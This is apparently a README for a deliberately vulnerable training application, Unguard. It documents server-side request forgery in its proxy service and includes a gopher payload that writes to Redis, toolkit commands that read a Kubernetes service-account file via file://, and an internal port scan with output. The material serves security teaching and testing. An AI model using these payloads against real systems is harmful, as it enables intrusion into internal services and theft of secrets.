


# Server-side Request Forgery (SSRF)

Server-side request forgery is a web security vulnerability that allows an attacker to induce the server-side 
application to make requests to an unintended location.

Unguard has a semi-blind and a non-blind SSRF vulnerability in the proxy-service.

**Semi-blind SSRF**

When posting URLs using the URL posting feature, the proxy service will access the given URL unconditionally, so even
if a local URL is given (e.g. `http://localhost/`). Metadata like title/preview image of the accessed URL will be 
displayed in Unguard.

**Non-blind SSRF**

When posting images via URL, Unguard will fetch the given URL and display it as a base64 encoded image, regardless if
the given URL was pointing to a valid image. This can be used to leak internal resources, including files.

## Preconditions and Requirements

For this exploit to work you need:
* [unguard](../../../docs/DEV-GUIDE.md) deployed and running
* (optional) [unguard-exploit-toolkit](../../INSTALL.md) set up


## Exploitation

To exploit the non-blind SSRF, put a valid curl URL into the image posting text field and post it.

### w/o Toolkit CLI

If you are not interested in the result of the query, simply posting an image URL will result in the server fetching
your supplied URL, regardless of protocol or if it is a local IP that was specified.

This example URL sets a redis key using the gopher protocol:
* `gopher://unguard-redis:6379/_SET%20hacked%20yes`



Using the Redis CLI on the Redis pod, we can verify that the key gets set:



### With Toolkit CLI 

Using the CLI, you can access arbitrary URLs from the internal proxy-service and get their contents.
Make sure to use `ug-exploit login` first, as you need to be logged in to post content.

#### Examples

Using [HTTPbin](https://httpbin.org/#/Request_inspection) to inspect the request headers:

```shell
$ ug-exploit ssrf --target unguard.kube --url https://httpbin.org/headers
```

Leaking a Kubernetes internal file:

```shell
$ ug-exploit ssrf --target unguard.kube --url file:///var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

Doing an internal port scan also abuses SSRF to figure out which services are running on other internal components that
are accessible from the proxy-service:

```shell
$ ug-exploit portscan --ports 80-90 --host unguard-ad-service --target unguard.kube
Accessing unguard-ad-service on port range (80, 90)
[*] unguard-ad-service on port 80 is open
[*] unguard-ad-service on port 81 seems closed
[*] unguard-ad-service on port 82 seems closed
...
```

Run `ug-exploit ssrf --help` for more information.

## Further Details

* [SSRF Explained (Portswigger)](https://portswigger.net/web-security/ssrf)
* [Combine SSRF with CRLF injection to execute arbitrary Redis commands](../crlf-injection/README.md)
